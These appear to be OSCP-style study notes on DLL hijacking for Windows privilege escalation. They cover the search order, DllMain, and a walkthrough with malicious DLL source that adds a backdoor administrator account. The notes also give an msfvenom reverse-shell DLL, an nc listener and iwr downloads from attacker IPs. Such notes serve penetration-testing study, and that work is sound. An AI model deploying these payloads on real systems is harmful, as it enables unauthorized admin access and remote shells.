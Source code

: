 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/8-windows-privilege-escalation/6-dll-hijacking/"}
---
```


- Dynamic Link Libraries (DLLs) provide functionality to programs or the OS.
- They are a way for developers to use and integrate already existing functionality without reinventing the wheel.
- On Unix they are comparable to Shared Objects.
- DLLs can be abused in multiple ways for privilege escalation.
	- One way is to replace the .DLL in the same way as for service hijacking.
	- Another method is called "DLL Search Order"

DLL Search Order:
- The search order determines the order of DLLs to inspecting when searching for them. By default Safe DLL Search Mode is enabled, which makes it more difficult.
- Microsoft's standard search order:
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
- When safe mode is disabled the current directory is at position 2 after application's directory.
- List search order using:
```powershell
$env:path  
```

One-liner to list all paths and the permissions for them (GPT):
```powershell
$env:path -split ";" | ForEach-Object { "$_"; (icacls.exe $_) | Select-String -Pattern ":\s*\([^)]+\)" }
```

Inner workings of DLLs:
- Each DLL can have an optional entry point funtion named "DllMain", which is executed when processes or threads attach the DLL.
- DllMain generally contains four cases named:
	- _DLL_PROCESS_ATTACH_
	- _DLL_THREAD_ATTACH_
	- _DLL_THREAD_DETACH_
	- _DLL_PROCESS_DETACH_
- The four cases handle situations where the DLL is loaded or unloaded by a process or thread.
- They are commonly used to perform starting or quitting tasks.
- If the DLL does not include DllMain it only provides resources.
- Example of a basic DLL in C++ containing these cases:
```c++
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
-------------

### DLL Search Order Hijacking:
1. Start procmon or other to review services and their DLLs. (Procmon has to be run as administrator on the target machine, otherwise the binary has to be copied and analysed locally)
2. Find a DLL which is missing.
3. Create a DLL in the form of a '.cpp'-file on your Kali. Example of new admin user:
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user zombie password123! /add");
  	    i = system ("net localgroup administrators zombie /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
4. Cross-compile the DLL with mingw:
```bash
x86_64-w64-mingw32-gcc <dllname>.cpp --shared -o <dllname>.dll
```
5. Serve the DLL and download it.
```powershell
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
```
6. Move the DLL to the optimal position in the search order path using 'move'.
7. Restart the service loading the DLL:
```powershell
Restart-Service <servicename>
```
8. Win!

### DLL Reverse Shell with MSF:
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 LPORT=443 -a x64 --platform Windows -f dll -o EnterpriseServiceOptional.dll

nc -lvnp 443

iwr -uri http://192.168.45.226:8001/EnterpriseServiceOptional.dll -Outfile EnterpriseServiceOptional.dll

RestartService EnterpriseService
```

